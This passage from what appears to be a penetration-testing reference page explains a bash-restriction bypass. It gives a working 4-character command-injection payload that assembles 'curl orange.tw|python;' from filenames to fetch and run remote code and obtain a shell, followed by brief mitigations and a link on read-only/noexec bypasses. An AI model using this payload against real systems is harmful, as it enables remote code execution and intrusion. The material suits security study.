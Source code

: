 #### Limitations:

- This technique relies on the target system having Bash as the default shell.
- The command to be executed must be able to fit within the 4-character limit.

#### Mitigation:

To mitigate this technique, you can:

- Use a restricted shell that does not allow command substitution.
- Regularly update and patch your system to ensure that any vulnerabilities are addressed.
- Implement strong access controls to prevent unauthorized access to your system.
```bash
# In a similar fashion to the previous bypass this one just need 4 chars to execute commands
# it will follow the same principle of creating the command `ls -t>g` in a file
# and then generate the full command in filenames
# generate "g> ht- sl" to file "v"
'>dir'
'>sl'
'>g\>'
'>ht-'
'*>v'

# reverse file "v" to file "x", content "ls -th >g"
'>rev'
'*v>x'

# generate "curl orange.tw|python;"
'>\;\\'
'>on\\'
'>th\\'
'>py\\'
'>\|\\'
'>tw\\'
'>e.\\'
'>ng\\'
'>ra\\'
'>o\\'
'>\ \\'
'>rl\\'
'>cu\\'

# got shell
'sh x'
'sh g'
```
## Read-Only/Noexec/Distroless Bypass

If you are inside a filesystem with the **read-only and noexec protections** or even in a distroless container, there are still ways to **execute arbitrary binaries, even a shell!:**

{% content-ref url="../bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless/" %}
[bypass-fs-protections-read-only-no-exec-distroless](../bypass-bash-restrictions/bypass-fs-protections-read-only-no-exec-distroless/)
{% endcontent-ref %}
